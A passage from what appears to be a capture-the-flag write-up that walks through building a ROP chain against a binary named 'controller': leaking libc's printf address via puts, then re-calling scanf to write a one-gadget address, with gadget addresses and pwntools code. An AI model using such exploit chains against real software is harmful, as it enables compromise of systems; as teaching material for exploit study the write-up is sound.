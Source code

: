 We use the `puts` function present inside `controller` to leak the libc address of the `printf` function.

Using ROPGadget we found the following one to set the put parameter in place:

```
0x00000000004011d3 : pop rdi ; ret
```

So the ROP part for this section is:

```python
gadget_pop_rdi     = 0x4011d3

# Set parameters before call puts
ropchain += p64(gadget_pop_rdi) + p64(elf.got['printf'])
# Call puts
ropchain += p64(elf.plt['puts'])
```

#### 2. Recall scanf after the leak

We must pass two parameters to `scanf`. The first one is the format, and the second one is the address of the destination buffer that will be filled by `scanf` according to the format string.

We used the format string `%s` present inside the controller binary:

```
.rodata:00000000004013E6 aS              db '%s',0 
```

We choose a writable memory address to be filled with the one gadget addr: `0x602100`. We load this address into `rsi` with the new gadget:

```
0x00000000004011d1 : pop rsi ; pop r15 ; ret
```

There is still a problem. If the stack is not aligned during the `scanf` call, a crash happens because `scanf` uses xmm registers. Aligning the stack is not terribly difficult, one simply has to add a useless `ret`, which subtracts eight bytes from `rsp` before calling `scanf`:

```
0x0000000000400606 : ret
```

The ROP part for this section is:

```python
gadget_pop_rsi_r15 = 0x4011d1
gadget_ret         = 0x400606
format_string_s    = 0x4013E6
target_addr        = 0x602100

# Set parameters before call scanf
ropchain += p64(gadget_pop_rdi) + p64(format_string_s)
ropchain += p64(gadget_pop_rsi_r15) + p64(target_addr) + p64(0)
# Realign the stack to 0x10
ropchain += p64(gadget_ret)
# Call scanf
ropchain += p64(elf.plt['__isoc99_scanf'])
```
